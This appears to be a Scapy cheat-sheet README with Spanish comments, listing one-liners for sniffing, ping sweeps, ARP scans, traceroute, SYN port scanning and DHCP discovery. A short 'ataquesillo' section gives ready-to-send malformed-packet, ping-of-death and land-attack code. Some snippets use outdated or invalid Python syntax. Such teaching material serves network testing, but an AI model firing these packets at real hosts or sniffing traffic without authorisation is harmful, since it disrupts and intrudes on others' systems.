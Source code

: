 # uberscapy
Scapy docs, examples, scripts and other stuff

## Contents

docs - diffrent scapy docs

examples - examples for official Scapy usage and more


## Tutorial

Official Scapy usage tutorial is located [here](http://www.secdev.org/projects/scapy/doc/usage.html)

## One line examples

Sniffing:
 
Snifear en interfaz eth0:
	
	```python
			sniff(iface="eth0",prn=lambda x: x.summary())
			sniff(iface="eth0",prn=lambda x: x.show())
	```
	
filtrando y con formato. Solo ips.
	```python
			pkts = sniff(prn=lambda x:x.sprintf("{IP:%IP.src% -> %IP.dst%\n}{Raw:%Raw.load%\n}"))
	```
	
identificando puertos
	```python
		a=sniff(filter="tcp and ( port 25 or port 110 )",prn=lambda x: x.sprintf("%IP.src%:%TCP.sport% -> %IP.dst%:%TCP.dport%  %2s,TCP.flags% : %TCP.payload%"))
	```
 
Ping:
```python
	srloop(IP(dst="www.google.com/30")/TCP())
```
	//con icmp bloqueado
	```python
	ans,unans=sr( IP(dst="192.168.1.*")/TCP(dport=80,flags="S") )
	ans.summary( lambda(s,r) : r.sprintf("%IP.src% conteasta") )
    ```
    
	//Udp Ping
	```python
	ans,unans=sr( IP(dst="192.168.1.1-10")/UDP(dport=0) )
	ans.summary( lambda(s,r) : r.sprintf("%IP.src% contesta en udp") )
    ```
Arping:
```python
	ans,unans=srp(Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(pdst="192.168.1.0/24"),timeout=2)
	ans.summary(lambda (s,r): r.sprintf("%Ether.src% %ARP.psrc%") )
```

	//normal
	```python
	arping("192.168.1.1")
    ```
    
Traceroute:
```python
	traceroute(["www.google.com","www.ust.cl","www.terra.cl","www.microsoft.com"],maxttl=20)
	result, unans=_
	result.show()
	//graficar
	result.graph(type="ps", target="|lp")
	result.graph(target="> grafico.svg")
```

tarceroute avanzado:
```python
	//saltandose cortafuegos-por el dns
	ans,unans=sr(IP(dst="terra.cl",ttl=(1,10))/TCP(dport=53,flags="S"))
	ans.summary( lambda(s,r) : r.sprintf("%IP.src%\t{ICMP:%ICMP.type%}\t{TCP:%TCP.flags%}"))
```

Graficar tracert:
```python
	res,unans = traceroute(["www.ust.cl","www.santotomas.cl"],dport=[80,443],maxttl=20,retry=-2)
	//graficar
	res.graph(type="ps", target="|lp")
	res.graph(target="> grafico.svg")
```

scanner de puertos:
```python
	res,unans = sr( IP(dst="target")/TCP(flags="S", dport=(1,1024)) )
	//visualizando.
	res.nsummary( lfilter=lambda (s,r): (r.haslayer(TCP) and (r.getlayer(TCP).flags & 2)) )
```

OS fingerprint:
```python
	ans,unans=srloop(IP(dst="192.168.1.1")/TCP(dport=80,flags="S"))
```
un ataquesillo:
	paquete mal formado:
	
	```python
		send(IP(dst="192.168.1.1", ihl=2, version=3)/ICMP())
	```
	
	Ping of death:
	```python
		send( fragment(IP(dst="192.168.1.1")/ICMP()/("X"*60000)) )
	```
	Land attack (windows):
	```python
		send(IP(src=target,dst=target)/TCP(sport=135,dport=135))
	```
 
verificandos DHCP de la red:
```python
	conf.checkIPaddr = False
	fam,hw = get_if_raw_hwaddr(conf.iface)
	dhcp_discover = Ether(dst="ff:ff:ff:ff:ff:ff")/IP(src="0.0.0.0",dst="255.255.255.255")/UDP(sport=68,dport=67)/BOOTP(chaddr=hw)/DHCP(options=[("message-type","discover"),"end"])
	ans, unans = srp(dhcp_discover, multi=True)
	//mostando
	ans.display()
```

## Links

http://stackoverflow.com/questions/10818661/scapy-retrieving-rssi-from-wifi-packets

http://hackoftheday.securitytube.net/2013/04/wi-fi-ssid-sniffer-in-12-lines-of.html

http://hackoftheday.securitytube.net/2013/03/wi-fi-sniffer-in-10-lines-of-python.html

http://scholarworks.sjsu.edu/cgi/viewcontent.cgi?article=1191&context=etd_projects

http://pen-testing.sans.org/blog/2011/10/13/special-request-wireless-client-sniffing-with-scapy

http://raidersec.blogspot.com/2013/01/wireless-deauth-attack-using-aireplay.html

http://www.secdev.org/projects/scapy/portability.html
